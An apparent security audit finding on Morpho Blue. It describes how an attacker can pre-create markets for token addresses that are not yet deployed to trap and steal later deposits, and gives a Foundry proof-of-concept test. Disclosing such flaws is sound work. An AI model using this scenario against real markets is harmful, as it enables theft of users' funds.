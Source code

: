 
An attacker can exploit this to set traps and potentially steal funds from unsuspecting users:

- 1INCH wants to deploy their token on Polygon.
- Before the token is deployed, Alice does the following in Morpho Blue on Polygon:
  - Call `createMarket()` with `0x111111111117dC0aa78b770fA6A738034120C302` as `collateralToken`, which is the 1INCH token address.
  - Call `supplyCollateral()` to give herself a large collateral balance.
- Afterwards, the 1INCH token is deployed.
- Bob wants to use his 1INCH tokens as collateral in Morpho Blue.
  - He calls `supplyCollateral()` and deposits his tokens into the market created by Alice.
- Alice can now call `withdrawCollateral()` to steal Bob's tokens.

Apart from tokens on multiple chains, another form of tokens that have pre-determined addresses are tokens created from factory contracts. 

For example, the addresses of all Uniswap V2 LP tokens are known before deployment, since [`UniswapV2Pair` is created using `CREATE2`](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Factory.sol#L28-L32) in `UniswapV2Factory`. Since their addresses are pre-determined, an attacker can perform the same attack mentioned above before the `UniswapV2Pair` is deployed to potentially steal funds.

The following POC demonstrates how an attacker can create a market and give himself unlimited supply or collateral for non-existing tokens:

```solidity
// SPDX-License-Identifier: GPL-2.0-or-later
pragma solidity ^0.8.0;

import "test/forge/BaseTest.sol";

contract EOATokenTest is BaseTest {
    using MarketParamsLib for MarketParams;

    function test_canCreateMarketWithEOAToken() public {
        // Create market with loanToken and collateralToken without code
        marketParams = MarketParams({
            loanToken: address(0xc4fe),
            collateralToken: address(0xdead),
            oracle: address(oracle),
            irm: address(irm),
            lltv: DEFAULT_TEST_LLTV
        });
        id = marketParams.id();
        morpho.createMarket(marketParams);

        // Give ONBEHALF a large amount of loanToken
        morpho.supply(marketParams, 1e30, 0, ONBEHALF, hex"");
        assertEq(morpho.market(id).totalSupplyAssets, 1e30);
        
        // Give ONBEHALF a large amount of collateralTOken
        morpho.supplyCollateral(marketParams, 1e30, ONBEHALF, hex"");
        assertEq(morpho.position(id, ONBEHALF).collateral, 1e30);
    }
}
```
